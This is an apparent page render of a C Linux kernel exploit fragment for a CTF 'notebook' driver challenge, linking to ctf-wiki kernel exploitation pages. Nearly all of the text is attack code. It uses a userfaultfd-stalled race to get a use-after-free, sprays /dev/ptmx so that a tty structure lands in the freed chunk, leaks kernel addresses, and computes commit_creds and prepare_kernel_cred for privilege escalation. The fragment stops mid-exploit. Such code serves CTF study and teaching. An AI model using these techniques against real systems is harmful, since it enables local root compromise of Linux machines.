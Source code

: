 ```c
}
void gift(size_t name){
    X n132;
    n132.idx = 1;
    n132.buf = name;
    n132.size = 1;
    ioctl(fp,0x64,&n132);
}
void add_thread(size_t idx)
{
    add(idx,0x60,hit);
}
void edit_thread(size_t idx)
{
    edit(idx,0,hit);
}
int main()
{

    char buf[0x1000]={0};
    hit = mmap(NULL,0x1000,0x6,0x22,-1,0);
    RegisterUserfault(hit,userfaultfd_leak_handler);

    fp = open("/dev/notebook",2);
    if(fp<0)
        Panic("OPEN");
    add(0,0x60,"n132");
    add(1,0x60,"n132");
    
    edit(0,0x2e0,"n132");
    edit(1,0x500,"n132");

    pthread_t add_t,edit_t;
    pthread_create(&add_t,NULL,edit_thread,0);
    sleep(0.5);
    pthread_create(&edit_t,NULL,add_thread,0);
    sleep(0.5);
    int mx = -1;
    for(int i =0;i<0x20;i++)
    {
        mx = open("/dev/ptmx",O_RDWR|O_NOCTTY);
        if(mx<0)
            Panic("PTMX");
        read(fp,buf,0);
        if(*(size_t *)buf == TTYMAGIC)
            break;//UAF
    }
    if(*(size_t *)buf != TTYMAGIC)
        Panic("Fail to UAF");
    
    
    char gift_buf[0x100];
    gift(gift_buf);
    size_t note_addr = u64(gift_buf+0x10);

    read(fp,buf,0);
    size_t leak = u64(buf+0x18);
    // Relocate Functions
    size_t work_for_cpu = leak+(0xffffffff8109eb90-0xffffffff81e8e440);
    size_t commit_cred  = leak+(0xffffffff810a9b40-0xffffffff81e8e440);
    size_t prepare_cred = leak+(0xffffffff810a9ef0-0xffffffff81e8e440);

    size_t * fake_tty[0x100] = {0};
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/